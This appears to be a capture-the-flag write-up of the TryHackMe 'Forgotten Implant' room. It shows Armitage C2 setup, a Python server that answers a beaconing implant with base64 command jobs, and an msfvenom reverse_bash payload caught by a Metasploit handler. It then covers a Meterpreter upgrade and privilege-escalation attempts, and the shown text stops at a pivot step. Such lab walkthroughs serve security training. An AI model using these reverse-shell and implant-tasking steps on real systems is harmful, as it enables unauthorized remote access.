







### Level: **_Medium_**


#### Introduction


Welcome to Forgotten Implant!


This is a pretty straightforward CTF-like room in which you will have to get initial access before elevating your privileges. The initial attack surface is quite limited, and you'll have to find a way of interacting with the system.


If you have no prior knowledge of **Command and Control (C2**[1](#32fb3272-7074-446f-8215-2a8f2e52267f)**)**, you might want to look at the [Intro to C2](https://tryhackme.com/room/introtoc2) room. While it is not necessary to solve this challenge, it will provide valuable context for your learning experience.


Please allow 3-5 minutes for the **VM** to boot properly!


**Note:** While being very linear, this room can be solved in various ways. To get the most out of it, feel free to overengineer your solution to your liking!

Thanks to **[Ingo](https://tryhackme.com/p/Ingo)** for the room on TryHackMe!


---


#### Table of Content


1. [Level: Medium](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#level-medium)

   1. [Introduction](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#introduction)
   2. [Table of Content](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#table-of-content)

2. [Forgotten Implant](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#forgotten-implant)

   1. [Setting Up a C2 Framework](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#setting-up-a-c2-framework)

      1. [ARMITAGE C2](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#armitage-c2)
      2. [Make Your Army ready to attack](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#make-your-army-ready-to-attack)

   2. [Welcome to your C2 infrastructure !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#welcome-to-your-c2-infrastructure)

      1. [Enumeration with ARMITAGE C2](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#enumeration-with-armitage-c2)

   3. [It is here, but it isn't?!](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#it-is-here-but-it-isn-t)

      1. [ONLINE?](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#online)
      2. [DOUBLECHECK with RUSTSCAN](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#doublecheck-with-rustscan)

   4. [Let's think the oposite way...](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-think-the-oposite-way)

      1. [We always check for open ports to communicate but...](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#we-always-check-for-open-ports-to-communicate-but)
      2. [wireSHARK - Time !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#wireshark-time)

   5. [We are getting connections !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#we-are-getting-connections)

      1. [WIRESHARK](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#wireshark)
      2. [Let's analyze](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-analyze)

   6. [Whats going on ?!?](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#whats-going-on)

      1. [Let's give him what he wants / deserves !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-give-him-what-he-wants-deserves)
      2. [Let's fire up Apache on port 81](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-fire-up-apache-on-port-81)
      3. [CyberChef.io](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#cyberchef-io)

   7. [Let's make a custome python script](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-make-a-custome-python-script)

      1. [Respond in JSON format](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#respond-in-json-format)
      2. [CyberChef.IO](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#cyberchef-io)

   8. [Now we can communicate with the target !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#now-we-can-communicate-with-the-target)

      1. [PASSWD](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#passwd)
      2. [LINUX VERSION](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#linux-version)
      3. [SUDO RIGHTS](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#sudo-rights)
      4. [BASH STAGELESS REVERSE TCP](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#bash-stageless-reverse-tcp)
      5. [C2 ARMITAGE](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#c2-armitage)

   9. [Reverse Shell is online](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#reverse-shell-is-online)

      1. [Let's make a METERPRETER SHELL](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-make-a-meterpreter-shell)
      2. [Let's Check WHat we Have](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-check-what-we-have)
      3. [Get the user Flag](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#get-the-user-flag)

   10. [On the way to root](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#on-the-way-to-root)

       1. [products.py](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#products-py)
       2. [local_exploit_suggester](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#local-exploit-suggester)

   11. [Exploit su_login](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#exploit-su-login)

   12. [Let's go back to the meterpreter shell](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-go-back-to-the-meterpreter-shell)

       1. [netstat](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#netstat)
       2. [Port: 33060](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#port-33060)
       3. [Port: 3306](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#port-3306)
       4. [Port: 80](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#port-80)

   13. [PIVOT - Let's check if we can expose Port 80 to us](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#pivot-let-s-check-if-we-can-expose-port-80-to-us)

       1. [Meterpreter > portfwd](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#meterpreter-portfwd)
       2. [RUSTSCAN](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#rustscan)
       3. [netstat](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#netstat)
       4. [socat](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#socat)

   14. [Connect to localhost:8888](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#connect-to-localhost-8888)

       1. [Port: 8888](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#port-8888)
       2. [We are in !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#we-are-in)
       3. [Let's search for exploits !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#let-s-search-for-exploits)
       4. [We can use PHP as sudo !](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#we-can-use-php-as-sudo)
       5. [NETCAT Listener](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#netcat-listener)
       6. [Get the root.txt](https://salucci.ch/2023/08/03/ctf-tryhackme-forgotten-implant/#get-the-root-txt)


---


### Forgotten Implant


---


#### Setting Up a C2 Framework


##### ARMITAGE C2


**[Armitage](https://web.archive.org/web/20211006153158/http:/www.fastandeasyhacking.com/)** is an extension of the Metasploit Framework - it adds a Graphical user interface and is written in Java, and is incredibly similar to Cobalt Strike. This is because they were both developed by Raphael Mudge. Armitage offers an easy way to enumerate and visualize all of your targets. Aside from looking a lot like Cobalt Strike, it even offers some unique features. One of the most popular can be found in the “Attacks” menu; This feature is known as the Hail Mary attack, which attempts to run all exploits for the services running on a specific workstation. Armitage really is “Fast and Easy Hacking”.


---


##### Make Your Army ready to attack


```
ip a
```


```
> Get you <strong>tun0</strong> inet address
```


```
sudo teamserver 10.**.*.*** s3cr3t

sudo teamserver <tun0> <password>
```


```
[*] Generating X509 certificate and keystore (for SSL)
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN=Armitage Hacker, OU=FastAndEasyHacking, O=Armitage, L=Somewhere, ST=Cyberspace, C=Earth
[*] Starting RPC daemon
[*] MSGRPC starting on 127.0.0.1:55554 (NO SSL):Msg...
[*] MSGRPC backgrounding at 2023-08-02 19:57:52 +0200...
[*] MSGRPC background PID 40433
[*] sleeping for 20s (to let msfrpcd initialize)
[*] Starting Armitage team server
[*] Use the following connection details to connect your clients:
        Host: 10.**.*.***
        Port: 55553
        User: msf
        Pass: s3cr3t

[*] Fingerprint (check for this string when you connect):
        e13e61a6ba7b5febea0e857d5c8cd7c9b9b412b2
[+] multi-player metasploit... ready to go
```


```
sudo armitage
```





```
> Connect
> Yes
> Enter your nickname
```


---


#### Welcome to your C2 infrastructure !


##### Enumeration with ARMITAGE C2


```
> Go to Hosts
> Nmap scan
> Quick Scan (OS detect)
> Now enter the IP /24
    <strong><em>10.10.142.56/24</em></strong>
```





```
> As you can see, other machines from other challenges were online at the time of my nmap scan.

> Let's focus on <strong>10.10.142.56</strong>
```


---


#### It is here, but it isn't?!


##### ONLINE?


```
> As you can see Armitage gives me a response, but no port is open.
```


---


##### DOUBLECHECK with RUSTSCAN


```
sudo rustscan -a 10.10.142.56 --ulimit 5000 -- -oA scans/ -sC -sV --script vuln,mysql-enum
```


```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
[!] <strong>Looks like I didn't find any open ports for 10.10.142.56.</strong> This is usually caused by a high batch size.

*I used 4500 batch size, consider lowering it with 'rustscan -b <batch_size> <ip address>' or a comfortable number for your system.

 Alternatively, increase the timeout if your ping is high. Rustscan -t 2000 for 2000 milliseconds (2s) timeout.
```


---


#### Let's think the oposite way...


##### We always check for open ports to communicate but...


...what if the machine tries to communicate with us?


---


##### wireSHARK - Time !


```
> Let's start wireshark and listen to <strong>tun0</strong>
```


---


#### We are getting connections !


##### WIRESHARK





##### Let's analyze


```
# Wireshark Filter
<strong>ip.addr==10.10.142.56</strong>
```





```
> Connection from changing source port to <strong>destination port</strong> <strong>81</strong>
> Server sends a <strong>SYN</strong> <em>(0x002 Flag)</em>
> Client responds with <strong>RST, ACK</strong> <em>(0x014 Flag)</em>
```


```
# Normal TCP connection
> SYN
> SYN, ACK
> ACK
```


---


#### Whats going on ?!?


```
> So the Target tries to <strong>connect to us using port 81</strong>
```


---


##### Let's give him what he wants / deserves !


##### Let's fire up Apache on port 81


```
sudo python3 -m http.server 81
```


```
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.142.56 - - [02/Aug/2023 22:16:01] code 404, message File not found
10.10.142.56 - - [02/Aug/2023 22:16:01] "GET /heartbeat/<strong>eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjA6MTY6MDEuNTEwMDkxIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9</strong> HTTP/1.1" 404 -
10.10.142.56 - - [02/Aug/2023 22:16:02] code 404, message File not found
10.10.142.56 - - [02/Aug/2023 22:16:02] "GET /<strong>get-job/ImxhdGVzdCI=</strong> HTTP/1.1" 404 -
```


---


##### [CyberChef.io](<https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)JSON_Beautify('%20%20%20%20',false)&input=ZXlKMGFXMWxJam9nSWpJd01qTXRNRGd0TURKVU1qQTZNVFk2TURFdU5URXdNRGt4SWl3Z0luTjVjM1JsYldsdVptOGlPaUI3SW05eklqb2dJa3hwYm5WNElpd2dJbWh2YzNSdVlXMWxJam9nSW1admNtZHZkSFJsYm1sdGNHeGhiblFpZlN3Z0lteGhkR1Z6ZEY5cWIySWlPaUI3SW1wdllsOXBaQ0k2SURBc0lDSmpiV1FpT2lBaWQyaHZZVzFwSW4wc0lDSnpkV05qWlhOeklqb2dabUZzYzJWOQ>)


```
<strong>eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjA6MTY6MDEuNTEwMDkxIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9</strong>

---

{
    "time": "2023-08-02T20:16:01.510091",
    "systeminfo": {
        "os": "Linux",
        "hostname": "forgottenimplant"
    },
    "latest_job": {
        "job_id": 0,
        "cmd": "whoami"
    },
    "success": false
}
```


```
/<strong>get-job/ImxhdGVzdCI=</strong>

---

"latest"
```


---


#### Let's make a custome python script


##### Respond in JSON format


```
"""
Author      : AnyGuy
Date        : 2023-08-02

Title       : forgotten-implant.py

Description : TryHackMe CTF - https://tryhackme.com/room/forgottenimplant

    - Respond on Port 81 in JSON format
    - Communicate with target machine over Port 81

"""

# Import Libraries
# Import the http.server module, which provides a basic request handler for HTTP servers.
# Import the socketserver module, which provides a framework for network servers.
# Import the base64 module, which provides functions to encode and decode binary data to ASCII strings following the Base64 encoding scheme.
import http.server
import socketserver
import base64

# Define the port number on which the server will listen. This can be any unused port on the system.
PORT = 81

# Define a custom request handler by subclassing http.server.SimpleHTTPRequestHandler.
class MyRequestHandler(http.server.SimpleHTTPRequestHandler):
    # Override the do_GET method to customize the behavior of the server when it receives a GET request.
    def do_GET(self):
        # Send a 200 OK response status.
        self.send_response(200)
        # Send a Content-Type header with the value 'text/plain'.
        self.send_header("Content-type", "text/plain")
        # Send a blank line, indicating the end of the HTTP headers in the response.
        self.end_headers()

        # Define the data to be encoded in base64. This is a bytes-like object (a bytes object in this case).
        data = b'{"job_id": 15, "cmd": "whoami"}'

        # Base64-encode the data. The result is a bytes object.
        encoded_data = base64.b64encode(data)

        # Write the base64-encoded data to the response. This will be the body of the HTTP response.
        self.wfile.write(encoded_data)

# Create an instance of TCPServer, binding it to all available interfaces (specified by the empty string) and the defined port.
# Use the custom request handler for the server.
# The 'with' statement is used here to ensure that the server is properly cleaned up when it is no longer needed.
with socketserver.TCPServer(("", PORT), MyRequestHandler) as httpd:
    # Print a message indicating that the server is listening. This will appear in the console.
    print("Server listening on port", PORT)
    # Start the server. This will make the server start listening for incoming connections, and it will process each incoming request in a new thread.
    # The server will keep running indefinitely because of the 'serve_forever' method.
    httpd.serve_forever()
```


---


[Get the script on my GitHub](https://github.com/trustinveritas/pentest-project-site/blob/main/JSON/RESPONDER/forgotten-implant.py)


---


```
> Run the script as root
```


```
sudo su
chmod +x forgotten-implant.py
python3 forgotten-implant.py
```


```
Server listening on port 81
10.10.142.56 - - [02/Aug/2023 22:45:01] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjA6NDU6MDEuNDc2MTIwIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1" 200 -
10.10.142.56 - - [02/Aug/2023 22:45:02] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.142.56 - - [02/Aug/2023 22:45:02] "GET /job-result/eyJqb2JfaWQiOiAxNSwgImNtZCI6ICJ3aG9hbWkiLCAic3VjY2VzcyI6IHRydWUsICJyZXN1bHQiOiAiYWRhXG4ifQ== HTTP/1.1" 200 -
10.10.142.56 - - [02/Aug/2023 22:46:02] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjA6NDY6MDIuMDcwOTAwIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDE1LCAiY21kIjogIndob2FtaSIsICJzdWNjZXNzIjogdHJ1ZSwgInJlc3VsdCI6ICJhZGFcbiJ9LCAic3VjY2VzcyI6IGZhbHNlfQ== HTTP/1.1" 200 -
10.10.142.56 - - [02/Aug/2023 22:46:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.142.56 - - [02/Aug/2023 22:46:03] "GET /job-result/eyJqb2JfaWQiOiAxNSwgImNtZCI6ICJ3aG9hbWkiLCAic3VjY2VzcyI6IHRydWUsICJyZXN1bHQiOiAiYWRhXG4ifQ== HTTP/1.1" 200 -
```


```
<strong># NOTE</strong>
> We are still listening with wireshark and filter...
    <strong>ip.addr==10.10.142.56</strong>
```


---


##### [CyberChef.IO](<https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)JSON_Beautify('%20%20%20%20',false)&input=ZXlKcWIySmZhV1FpT2lBeE5Td2dJbU50WkNJNklDSjNhRzloYldraUxDQWljM1ZqWTJWemN5STZJSFJ5ZFdVc0lDSnlaWE4xYkhRaU9pQWlZV1JoWEc0aWZRPT0>)


```
{
    "job_id": 15,
    "cmd": "whoami",
    "success": true,
    "result": "<strong>ada</strong>\n"
}
```


---


#### Now we can communicate with the target !


##### PASSWD


```
getent passwd
```


##### LINUX VERSION


```
lsb_release -a
```


##### SUDO RIGHTS


```
sudo -l
```


##### [BASH STAGELESS REVERSE TCP](https://www.revshells.com/)


```
msfvenom -p cmd/unix/reverse_bash LHOST=<YOUR IP> LPORT=4444 -f raw
```


##### C2 ARMITAGE


```
> View
> Console

use multi/handler
set payload cmd/unix/reverse_bash
set lhost <strong><YOUR IP></strong>
set lport 4444
exploit
```


---


#### Reverse Shell is **_online_**


---


##### Let's make a METERPRETER SHELL


```
> Right click on the host
> Shell
> Interact
```


```
whoami
ada
```


```
> Search for: <strong>shell_to_meterpreter</strong>
> Drag and Drop onto the target
```





---


##### Let's Check WHat we Have


```
> Right click on the client
> Meterpreter 2
> Interact
> Meterpreter Shell
```


```
meterpreter > <strong>ls</strong>
Listing: /home/ada
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2023-08-02 21:07:24 +0200  .bash_history
100644/rw-r--r--  220   fil   2022-07-10 17:07:54 +0200  .bash_logout
100644/rw-r--r--  3771  fil   2022-07-10 17:07:54 +0200  .bashrc
040700/rwx------  4096  dir   2022-07-12 23:14:27 +0200  .cache
040775/rwxrwxr-x  4096  dir   2023-08-02 21:27:01 +0200  .implant
040775/rwxrwxr-x  4096  dir   2022-07-12 23:14:32 +0200  .local
100644/rw-r--r--  807   fil   2022-07-10 17:07:54 +0200  .profile
020666/rw-rw-rw-  0     cha   2023-08-02 21:07:24 +0200  .python_history
100664/rw-rw-r--  66    fil   2022-07-11 23:53:58 +0200  .selected_editor
100664/rw-rw-r--  292   fil   2022-07-12 23:24:35 +0200  products.py
100664/rw-rw-r--  38    fil   2022-07-12 23:29:20 +0200  user.txt
```


##### Get the user Flag


```
<strong>cat user.txt</strong>
```


---


#### On the way to root


##### products.py


```
import mysql.connector

db = mysql.connector.connect(
    host='localhost',
    database='app',
    user='app',
    password='<strong>REDACTED</strong>'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')
```


---


##### local_exploit_suggester


```
> Armitage C2 search for: <strong>local_exploit_suggester</strong>
> Select Meterpreter session
> 2
```


```
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SHOWDESCRIPTION false
SHOWDESCRIPTION => false
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
SESSION => 2
msf6 post(multi/recon/local_exploit_suggester) > run -j
[*] Post module running as background job 8.
[*] 10.10.142.56 - Collecting local exploits for x86/linux...
```


---


#### Exploit **_su_login_**


```
 #   Name                                                               Potentially Vulnerable?  Check Result
 -   ----                                                               -----------------------  ------------
 1   exploit/linux/local/pkexec                                         Yes                      The service is running, but could not be validated.
 2   <strong>exploit/linux/local/su_login</strong>                                       Yes                      The target appears to be vulnerable.
```


```
> Search for: su_login
> Drag'n'Drop on to the target

[*] Exploit running as background job 11.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.11.8.178:16711 via the meterpreter on session 2
[*] Running automatic check ("set AutoCheck false" to disable)
<strong>[+] The target appears to be vulnerable.</strong>
[*] Uploading payload to target
[*] Attempting to login with su
<strong><em>
== NOT WORKING ==</em></strong>
```


---


#### Let's go back to the meterpreter shell


##### netstat


```
Connection list
===============

    Proto  Local address       Remote address    State        User  Inode  PID/Program name
    -----  -------------       --------------    -----        ----  -----  ----------------
    tcp    127.0.0.1:<strong>33060</strong>     0.0.0.0:*         LISTEN       113   0
    tcp    127.0.0.1:<strong>3306</strong>      0.0.0.0:*         LISTEN       113   0
    tcp    127.0.0.1:<strong>80</strong>        0.0.0.0:*         LISTEN       0     0
    tcp    127.0.0.53:53       0.0.0.0:*         LISTEN       101   0
    <em>tcp    10.10.142.56:40998  10.11.8.178:4444  ESTABLISHED  1001  0
    tcp    10.10.142.56:38722  10.11.8.178:4433  ESTABLISHED  1001  0</em>
    tcp    :::16711            :::*              LISTEN       1001  0
    tcp    :::1515             :::*              LISTEN       1001  0
    udp    127.0.0.53:53       0.0.0.0:*                      101   0
    udp    10.10.142.56:68     0.0.0.0:*                      100   0
```


```
> We see other connections on port
    - 33060
    - 3306
    - 80
```


---


##### Port: 33060


```
> Used for MySQL database connections over the x-protocol
> CRUD-Operations
    - Create
    - Read
    - Update
    - Delete
```


---


##### Port: 3306


```
> Used for default MySQL database connections
> Application or Services use this port to connect
```


---


##### Port: 80


```
> HTTP Port
```


---


#### PIVOT - Let's check if we can expose **_Port 80_** to us


---


```
> First we need a new meterpreter with payload
<strong>linux/x86/meterpreter/reverse_tcp</strong>
```


```
